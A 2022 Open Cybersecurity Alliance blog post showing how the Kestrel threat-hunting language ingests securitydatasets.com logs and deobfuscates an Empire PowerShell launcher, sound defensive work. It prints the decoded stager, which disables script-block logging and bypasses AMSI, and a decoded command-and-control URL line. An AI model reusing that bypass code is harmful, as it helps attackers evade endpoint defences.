 ```yaml
---
date: 2022-10-25
publishdate: 2022-10-25
published_url: "/posts/kestrel-sds-psd"
title: "Fun with securitydatasets.com and the Kestrel PowerShell Deobfuscator"
author: "Paul Coccoli"
publisher: "Open Cybersecurity Alliance"
featured_image: "/images/kestrel/huntflow.png"
summary: "Ready-made datasets from the Open Threat Research Forge meet Kestrel, featuring PowerShell Empire!"
tag: "blog"
---
```


Paul Coccoli &nbsp;·&nbsp; October 25, 2022 &nbsp;·&nbsp; 20 min read

The
[Kestrel](https://github.com/opencybersecurityalliance/kestrel-lang)
Threat Hunting Language is a novel "domain specific language" for
capturing and sharing threat hunts.  When getting started with
Kestrel, either [in a cloud
sandbox](https://opencybersecurityalliance.org/try-kestrel-in-a-cloud-sandbox/)
or a [local
install](https://kestrel.readthedocs.io/en/latest/installation/runtime.html),
you may want some example datasets to hunt against.  Example data is
useful both for learning [the
language](https://kestrel.readthedocs.io/en/latest/language.html) and
for testing your own [custom
analytics](https://opencybersecurityalliance.org/kestrel-custom-analytics/).

Luckily, the fine folks over at the [Open Threat Research Forge](https://github.com/OTRF) have created [securitydatasets.com](https://securitydatasets.com/introduction.html), a site (and github repo) that houses some nice datasets for threat hunting research.  In their own words:

> The Security Datasets project is an open-source initiatve that contributes malicious and benign datasets, from different platforms, to the infosec community to expedite data analysis and threat research.

As of version [1.4.1](https://github.com/opencybersecurityalliance/kestrel-lang/releases/tag/v1.4.1), Kestrel can now transparently use some of those datasets directly in a hunt.

**Table of Contents**

1. [Using Datasets From securitydatasets.com](#section:sds)
2. [The Empire Strikes...Something](#section:empire)
3. [Introducing the PowerShell Deobfuscator](#section:psd)
4. [Nesting Dolls](#section:nesting)
5. [Credits](#section:credits)

</br>
</br>

## <a name="section:sds"></a>Using Datasets From securitydatasets.com

securitydatasets.com stores host logs in their own JSON format (then zips them).  Most of the Windows datasets should be supported, and you can refer to them just like they were a STIX bundle.  For example, take a look at [Empire Mimikatz Extract Kerberos Keys](https://securitydatasets.com/notebooks/atomic/windows/credential_access/SDWIN-190518230752.html).  This page details an adversarial emulation run by OTRF, with the host events captured in a zipfile in GitHub.  By using the "Host" link shown in the "Datasets Download", you can try using Kestrel for detecting this technique.  For a first step, try looking for some PowerShell processes:

```elixir
procs = GET process
        FROM https://raw.githubusercontent.com/OTRF/Security-Datasets/master/datasets/atomic/windows/credential_access/host/empire_mimikatz_extract_keys.zip
        WHERE [process:binary_ref.name = 'powershell.exe']
```

Kestrel will download the zip file, unzip it, read in the JSON, transform it on the fly to STIX, then ingest it as if it were search results from [stix-shifter](https://github.com/opencybersecurityalliance/stix-shifter).

If you try out that command above, then `DISP procs` to see what Kestrel found, you might notice something interesting.  One of those processes has a very long command line with what almost looks like random junk:

```shell
powershell.exe" -noP -sta -w 1 -enc SQBGACgA...RQBYAA==
```

Note that I've omitted a huge chunk of the command line, for both your sanity and mine.  So what's going on here?

## <a name="section:empire"></a>The Empire Strikes...Something

Take a look at the [Adversary View](https://securitydatasets.com/notebooks/atomic/windows/credential_access/SDWIN-190518230752.html#adversary-view) of the page where we got the dataset from.  What's this "Empire" stuff all about?  The "adversarial emulation" uses [Empire](https://github.com/BC-SECURITY/Empire):

> Empire is a post-exploitation and adversary emulation framework that is used to aid Red Teams and Penetration Testers.

One of the capabilities of this framework is PowerShell obfuscation;
it uses multiple [PowerShell obfuscation
techniques](https://www.offensive-security.com/offsec/powershell-obfuscation/)
to try to cover its tracks.  So what can Kestrel do to help us figure
out what this PowerShell process is actually doing?

## <a name="section:psd"></a>Introducing PowerShell Deobfuscator

The [PowerShell
Deobfuscator](https://github.com/opencybersecurityalliance/kestrel-analytics/tree/release/analytics/psd)
is a [Kestrel analytics
module](https://kestrel.readthedocs.io/en/latest/installation/analytics.html#kestrel-analytics-abstraction)
that attempts to undo some of the obfuscation techniques.  You can run
it like any other Kestrel analytics module, using the `APPLY` keyword:

```elixir
APPLY python://psd ON procs
```

`procs` will have a new attribute, `x_psd_deobfuscated`, that holds the deobfuscated portion of the command line.  What's even more useful is the display output: an HTML dump of the deofuscated code, properly indented for readability.  The display output should resemble this:

```powershell
if ($PSVERSIONTABLE.psversion.major -ge 3) {
    $ACE6 = [ref].assembly.gettype('System.Management.Automation.Utils').getfield('cachedGroupPolicySettings', 'NonPublic,Static');
    if ($ACE6) {
        $4c0d = $ACE6.getvalue($null);
        if ($4c0d['ScriptBlockLogging']) {
            $4c0d['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
            $4c0d['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
        }
        $VAL = [collections.generic.dictionary[string, system.object]]::new();
        $VAL.add('EnableScriptBlockLogging', 0);
        $VAL.add('EnableScriptBlockInvocationLogging', 0);
        $4c0d['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $VAL
    }
    else {
        [scriptblock].getfield('signatures', 'NonPublic,Static').setvalue($null, (new-object collections.generic.hashset[string]))
    }
    $REF = [ref].assembly.gettype('System.Management.Automation.AmsiUtils');
    $REF.getfield('amsiInitFailed', 'NonPublic,Static').setvalue($null, $true);
    
}
```

A hunter can now scan the code and perhaps get some idea of what to look at next.

## <a name="section:nesting"></a>Nesting Dolls

What happens when the code that was base64-encoded itself uses
base64-encoded data?  When `psd` notices this, it will unencode and
append the result as a comment:

```powershell
$SER = $([text.encoding]::unicode.getstring([convert]::frombase64string('aAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgA1AA==')));  # http://10.10.10.5
```

The line above, which is found inside a larger, obfuscated PowerShell script, is simply assigning a string value to the variable `$SER`.  That string value, however, has been base64-encoded just like the script that contains it.  The comment at the end of the line was added by `psd`, and is the unencoded version of `'aAB0...AA=='`.  As you can see, it's a URL (actually a portion of a URL; further on in the script a path will be appended).

In this dataset, it's a private IP address, so you can't really go much farther.  It may be a command and control server (possibly the one running Empire) or a staging site to download the next stage of the payload.  The "Adversary View" from the dataset page shows that the Empire PowerShell agent will run the `mimikatz` tool, so maybe that's the next payload stage?  It's an exercise left to the reader.

Happy hunting!

## <a name="section:credits"></a>Credits

The PowerShell Deobfuscator is the result of Hack Day project at IBM Security by Paul Coccoli, Senior Software Engineer; and Stephen White, student at the University of New Brunswick.

